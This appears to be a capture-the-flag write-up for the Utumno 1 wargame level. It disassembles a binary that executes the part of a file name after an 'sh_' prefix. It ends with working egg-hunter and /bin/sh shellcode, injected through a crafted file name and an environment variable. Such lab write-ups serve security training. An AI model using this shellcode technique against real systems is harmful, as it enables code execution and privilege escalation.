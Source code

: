 # Utumno 1

### Disassembly of main function

```assembly
080484a6 <main>:
 80484a6:       55                      push   %ebp
 80484a7:       89 e5                   mov    %esp,%ebp
 80484a9:       83 e4 f0                and    $0xfffffff0,%esp
 80484ac:       83 ec 20                sub    $0x20,%esp
 80484af:       8b 45 0c                mov    0xc(%ebp),%eax
 80484b2:       83 c0 04                add    $0x4,%eax
 80484b5:       8b 00                   mov    (%eax),%eax
 80484b7:       85 c0                   test   %eax,%eax
 80484b9:       75 0c                   jne    80484c7 <main+0x21>
 80484bb:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484c2:       e8 79 fe ff ff          call   8048340 <exit@plt>
 80484c7:       8b 45 0c                mov    0xc(%ebp),%eax
 80484ca:       83 c0 04                add    $0x4,%eax
 80484cd:       8b 00                   mov    (%eax),%eax
 80484cf:       89 04 24                mov    %eax,(%esp)
 80484d2:       e8 a9 fe ff ff          call   8048380 <opendir@plt>
 80484d7:       89 44 24 18             mov    %eax,0x18(%esp)
 80484db:       83 7c 24 18 00          cmpl   $0x0,0x18(%esp)
 80484e0:       75 0c                   jne    80484ee <main+0x48>
 80484e2:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 80484e9:       e8 52 fe ff ff          call   8048340 <exit@plt>
 80484ee:       eb 32                   jmp    8048522 <main+0x7c>
 80484f0:       8b 44 24 1c             mov    0x1c(%esp),%eax
 80484f4:       83 c0 0b                add    $0xb,%eax
 80484f7:       c7 44 24 08 03 00 00    movl   $0x3,0x8(%esp)
 80484fe:       00 
 80484ff:       89 44 24 04             mov    %eax,0x4(%esp)
 8048503:       c7 04 24 d0 85 04 08    movl   $0x80485d0,(%esp)
 804850a:       e8 61 fe ff ff          call   8048370 <strncmp@plt>
 804850f:       85 c0                   test   %eax,%eax
 8048511:       75 0f                   jne    8048522 <main+0x7c>
 8048513:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048517:       83 c0 0e                add    $0xe,%eax
 804851a:       89 04 24                mov    %eax,(%esp)
 804851d:       e8 6b ff ff ff          call   804848d <run>
 8048522:       8b 44 24 18             mov    0x18(%esp),%eax
 8048526:       89 04 24                mov    %eax,(%esp)
 8048529:       e8 32 fe ff ff          call   8048360 <readdir@plt>
 804852e:       89 44 24 1c             mov    %eax,0x1c(%esp)
 8048532:       83 7c 24 1c 00          cmpl   $0x0,0x1c(%esp)
 8048537:       75 b7                   jne    80484f0 <main+0x4a>
 8048539:       b8 00 00 00 00          mov    $0x0,%eax
 804853e:       c9                      leave  
 804853f:       c3                      ret
 ```
 
### Walkthrough

Here we can see argv[1] is used as the argument for the function call to opendir. The function opendir given a directory name, will return a pointer to the directory stream. The pointer is then stored on the stack to be uesd later on in the program. 

```assembly
 80484c7:       8b 45 0c                mov    0xc(%ebp),%eax
 80484ca:       83 c0 04                add    $0x4,%eax
 80484cd:       8b 00                   mov    (%eax),%eax
 80484cf:       89 04 24                mov    %eax,(%esp)
 80484d2:       e8 a9 fe ff ff          call   8048380 <opendir@plt>
 80484d7:       89 44 24 18             mov    %eax,0x18(%esp)
 80484db:       83 7c 24 18 00          cmpl   $0x0,0x18(%esp)
 80484d7:       89 44 24 18             mov    %eax,0x18(%esp)
 80484db:       83 7c 24 18 00          cmpl   $0x0,0x18(%esp)
 80484e0:       75 0c                   jne    80484ee <main+0x48>
```

The directory stream pointer is pulled off the stack and used as the argument to readdir. Readdir will return a pointer to a dirent (directory entry) struct of the next directory entry in the stream.

```assembly
8048522:       8b 44 24 18             mov    0x18(%esp),%eax
 8048526:       89 04 24                mov    %eax,(%esp)
 8048529:       e8 32 fe ff ff          call   8048360 <readdir@plt>
 804852e:       89 44 24 1c             mov    %eax,0x1c(%esp)
 8048532:       83 7c 24 1c 00          cmpl   $0x0,0x1c(%esp)
 8048537:       75 b7                   jne    80484f0 <main+0x4a>
```

```c
struct dirent {
    ino_t          d_ino;       /* inode number */
    off_t          d_off;       /* offset to the next dirent */
    unsigned short d_reclen;    /* length of this record */
    unsigned char  d_type;      /* type of file; not supported
                                   by all file system types */
    char           d_name[256]; /* filename */
};
```

If a valid dirent pointer is obtained, then using an offset of 0xb, the program will compare the string. $0x80485d0 is a pointer to "sh_". So 

```assembly
 80484f0:       8b 44 24 1c             mov    0x1c(%esp),%eax
 80484f4:       83 c0 0b                add    $0xb,%eax
 80484f7:       c7 44 24 08 03 00 00    movl   $0x3,0x8(%esp)
 80484fe:       00 
 80484ff:       89 44 24 04             mov    %eax,0x4(%esp)
 8048503:       c7 04 24 d0 85 04 08    movl   $0x80485d0,(%esp)
 804850a:       e8 61 fe ff ff          call   8048370 <strncmp@plt>
 804850f:       85 c0                   test   %eax,%eax
 8048511:       75 0f                   jne    8048522 <main+0x7c>
```

So at this point it is fairly obvious that a file will need to exist within the given directory that has the prefix "sh_".

GDB output when it has read in the directory entry of sh_AAAA file.

```assembly
[-------------------------------------code-------------------------------------]
   0x80484f7 <main+81>: mov    DWORD PTR [esp+0x8],0x3
   0x80484ff <main+89>: mov    DWORD PTR [esp+0x4],eax
   0x8048503 <main+93>: mov    DWORD PTR [esp],0x80485d0
=> 0x804850a <main+100>:        call   0x8048370 <strncmp@plt>
   0x804850f <main+105>:        test   eax,eax
   0x8048511 <main+107>:        jne    0x8048522 <main+124>
   0x8048513 <main+109>:        mov    eax,DWORD PTR [esp+0x1c]
   0x8048517 <main+113>:        add    eax,0xe
Guessed arguments:
arg[0]: 0x80485d0 --> 0x5f6873 ('sh_')
arg[1]: 0x804a04f ("sh_AAAA")
arg[2]: 0x3 
[------------------------------------stack-------------------------------------]
0000| 0xffffd320 --> 0x80485d0 --> 0x5f6873 ('sh_')
0004| 0xffffd324 --> 0x804a04f ("sh_AAAA")
0008| 0xffffd328 --> 0x3 
0012| 0xffffd32c --> 0xf7fa9ff4 --> 0x192d7c 
0016| 0xffffd330 --> 0x8048540 (<__libc_csu_init>:      push   ebp)
0020| 0xffffd334 --> 0x8048390 (<_start>:       xor    ebp,ebp)
0024| 0xffffd338 --> 0x804a008 --> 0x3 
0028| 0xffffd33c --> 0x804a044 --> 0x2e52b9ee 
[------------------------------------------------------------------------------]
```

This is the code if the strncmp function passes and falls through the jump statement. The directory entry pointer is once again obtained and offset by 0xe. This is then used as the argument for run.

```
 8048513:       8b 44 24 1c             mov    0x1c(%esp),%eax
 8048517:       83 c0 0e                add    $0xe,%eax
 804851a:       89 04 24                mov    %eax,(%esp)
 804851d:       e8 6b ff ff ff          call   804848d <run>
```

Here is the GDB output before run is called.

```assembly
[-------------------------------------code-------------------------------------]
   0x8048513 <main+109>:        mov    eax,DWORD PTR [esp+0x1c]
   0x8048517 <main+113>:        add    eax,0xe
   0x804851a <main+116>:        mov    DWORD PTR [esp],eax
=> 0x804851d <main+119>:        call   0x804848d <run>
   0x8048522 <main+124>:        mov    eax,DWORD PTR [esp+0x18]
   0x8048526 <main+128>:        mov    DWORD PTR [esp],eax
   0x8048529 <main+131>:        call   0x8048360 <readdir@plt>
   0x804852e <main+136>:        mov    DWORD PTR [esp+0x1c],eax
Guessed arguments:
arg[0]: 0x804a052 ("AAAA")
[------------------------------------stack-------------------------------------]
0000| 0xffffd320 --> 0x804a052 ("AAAA")
0004| 0xffffd324 --> 0x804a04f ("sh_AAAA")
0008| 0xffffd328 --> 0x3 
0012| 0xffffd32c --> 0xf7fa9ff4 --> 0x192d7c 
0016| 0xffffd330 --> 0x8048540 (<__libc_csu_init>:      push   ebp)
0020| 0xffffd334 --> 0x8048390 (<_start>:       xor    ebp,ebp)
0024| 0xffffd338 --> 0x804a008 --> 0x3 
0028| 0xffffd33c --> 0x804a044 --> 0x2e52b9ee 
[------------------------------------------------------------------------------]
```

After returning from run, the program jumps to the filename after "sh_", in this case "AAAA". So this signifies that shellcode could be placed in the filename.

```assembly
[-------------------------------------code-------------------------------------]
   0x804a04c:   adc    al,0x0
   0x804a04e:   or     BYTE PTR [ebx+0x68],dh
   0x804a051:   pop    edi
=> 0x804a052:   inc    ecx
   0x804a053:   inc    ecx
   0x804a054:   inc    ecx
   0x804a055:   inc    ecx
   0x804a056:   add    BYTE PTR [eax],cl
[------------------------------------stack-------------------------------------]
0000| 0xffffd320 --> 0x804a052 ("AAAA")
0004| 0xffffd324 --> 0x804a04f ("sh_AAAA")
0008| 0xffffd328 --> 0x3 
0012| 0xffffd32c --> 0xf7fa9ff4 --> 0x192d7c 
0016| 0xffffd330 --> 0x8048540 (<__libc_csu_init>:      push   ebp)
0020| 0xffffd334 --> 0x8048390 (<_start>:       xor    ebp,ebp)
0024| 0xffffd338 --> 0x804a008 --> 0x3 
0028| 0xffffd33c --> 0x804a044 --> 0x2e52b9ee 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a052 in ?? ()
gdb-peda$ x/x $eip
0x804a052:      0x41414141
gdb-peda$
```

### Shellcode

Using the normal x86 shellcode, and attempting to create a file with it unfortunately fails. This is because filenames cannot contain \x2f which is the backslash. So this shellcode will not work as the filename

```
touch: cannot touch `sh_1\300Ph//shh/bin\211\343PS\211\341\260\v̀': No such file or directory
```

A smallest alphanumeric shellcode was about 390 bytes, and the maxiumum filename is around 255 characters. So this is also not an option

### Solution

The final solution was to use an egg hunter shellcode which would use a tag to search for shellcode in the environment variables.

http://shell-storm.org/shellcode/files/shellcode-839.php

Create a file with `/tmp/vigorix/` with the prefix 'sh_' followed by the EGG hunter shellcode
 
 ```
 touch $(python -c 'print "sh_\xfc\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x6a\x21\x58\x8d\x5a\x04\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"')
 ```

Define EGG variable as shellcode

```
export EGG=$(python -c 'print "\x90\x50\x90\x50\x90\x50\x90\x50\x6a\x46\x58\x31\xdb\x31\xc9\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"')
```

While in `/tmp/vigorix/` call `/utumno/utumno1 .`
